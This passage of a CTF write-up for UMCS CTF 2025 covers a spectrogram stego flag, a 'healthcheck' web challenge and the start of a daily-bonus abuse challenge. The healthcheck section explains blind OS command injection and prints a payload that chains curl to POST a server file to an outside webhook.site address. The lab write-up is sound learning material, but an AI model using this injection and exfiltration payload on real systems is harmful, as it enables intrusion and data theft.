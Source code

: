 ```strings rooster.jpg```

![](/assets/img/2025-04-13-umcsctf-2025-prelims/hotlinemiami_spectogram.png)
_Spectogram_

![](/assets/img/2025-04-13-umcsctf-2025-prelims/hotlinemiami_watching.png)
_Text after expanding dark segment in spectogram_

Flag:  `umcs{RICHARD_BE_WATCHING_1989}`

## healthcheck (Web)

This challenge is about a blind OS command injection with out-of-band exfiltration.

- When pointing the web checker to our server, notice that the user agent is curl. This is a bit odd, normally you'd use a headless browser instead of a command here to fetch requests for the user.
- We can confirm the command injection vulnerability by sending another curl command following the initial URL. Like so `https://www.google.com;curl <yoururl>`
- I got into a rabbithole trying to exfiltrate data through POST requests by sending the output of a command in the request body, but I think this challenge had sanitization because commands with `$` and backticks character had them removed and returned as plaintext.
- We also cannot write files on the server. If we try to redirect output to world-writable directories like `/dev/shm/` and `/tmp/`, we can't read the file with the `@` option.
- We can read any files using `@filename` but we don't know where the flag is on the server.
- I got stuck here for more than an hour... But I finally guessed the name that they provided in the challenge (hopes_and_dreams) and got the flag. 🥲


Payload:

```
url=https%253a//www.google.com+;curl+https%3a//webhook.site/88236e8b-9c6d-4343-8ac5-16a089804941+-d+@hopes_and_dreams
```

![](/assets/img/2025-04-13-umcsctf-2025-prelims/healthcheck_flag.png)

Flag: `umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}`

## Straightforward (Web)

The goal of this challenge is to claim more daily bonuses than allowed to redeem the secret award.

![](/assets/img/2025-04-13-umcsctf-2025-prelims/straightforward_goal.png)


If we look at `claim()`, it sets the `claimed` field to true when the user claims a reward.

```python
    if row and row['claimed']:
        flash("You have already claimed your daily bonus!", "danger")
        return redirect(url_for('dashboard'))
    db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
    db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
    db.commit()
```
